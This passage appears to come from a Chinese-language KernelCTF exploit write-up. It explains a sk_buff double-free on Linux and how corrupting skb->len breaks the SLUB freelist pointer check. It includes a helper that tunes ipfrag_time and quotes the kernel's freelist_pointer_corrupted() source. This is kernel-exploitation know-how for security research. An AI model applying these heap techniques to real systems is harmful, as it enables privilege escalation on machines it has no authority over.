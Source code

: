 ```c
// 修改`ipfrag_time` —— 控制IP分片重组时的等待时间
static void set_ipfrag_time(unsigned int seconds)
{
	int fd;
	
	fd = open("/proc/sys/net/ipv4/ipfrag_time", O_WRONLY);
	if (fd < 0) {
		perror("open$ipfrag_time");
		exit(1);
	}

	dprintf(fd, "%u\n", seconds);
	close(fd);
}
```

### 4-4. 绕过 KernelCTF skb 损坏检查

**问题**：KernelCTF会检查freelist是否损坏，特别是检查正在分配的对象中freelist的下一个ptr是否损坏。由于`skbuff_head_cache->offset == 0x70`，所以**freelist next ptr和`skb->len`重叠**了。这意味着next/previous freelist条目指针存储在`sk_buff+0x70`。内核开发者将`s->offset`设置在slab中间位置是为了避免OOB漏洞覆写freelist指针（避免轻松提权）。

在第1次释放skb后，`skb->len`会被next ptr覆写，而在第2次释放skb之前，解析数据包时会修改`skb->len`，破坏了freelist next ptr。

**分配时freelist损坏检测**：这时，如果想调用`slab_alloc_node()`来**分配**第1次释放的skb的freelist条目，`freelist_ptr_decode()`函数会将该空闲对象的freelist next ptr标记为损坏，导致**分配出错**。KernelCTF中的`freelist_pointer_corrupted()`函数如下所示：

```c
static inline bool freelist_pointer_corrupted(struct slab *slab, freeptr_t ptr,
	void *decoded)
{
#ifdef CONFIG_SLAB_VIRTUAL
	/*
	 * If the freepointer decodes to 0, use 0 as the slab_base so that
	 * the check below always passes (0 & slab->align_mask == 0).
	 */
	unsigned long slab_base = decoded ? (unsigned long)slab_to_virt(slab) : 0;

	/*
	 * This verifies that the SLUB freepointer does not point outside the
	 * slab. Since at that point we can basically do it for free, it also
	 * checks that the pointer alignment looks vaguely sane.
	 * However, we probably don't want the cost of a proper division here,
	 * so instead we just do a cheap check whether the bottom bits that are
	 * clear in the size are also clear in the pointer.
	 * So for kmalloc-32, it does a perfect alignment check, but for
	 * kmalloc-192, it just checks that the pointer is a multiple of 32.
	 * This should probably be reconsidered - is this a good tradeoff, or
	 * should that part be thrown out, or do we want a proper accurate
	 * alignment check (and can we make it work with acceptable performance
	 * cost compared to the security improvement - probably not)?
	 */
	return CHECK_DATA_CORRUPTION(
		((unsigned long)decoded & slab->align_mask) != slab_base,
		"bad freeptr (encoded %lx, ptr %p, base %lx, mask %lx",
		ptr.v, decoded, slab_base, slab->align_mask);
#else
	return false;
#endif
}
```

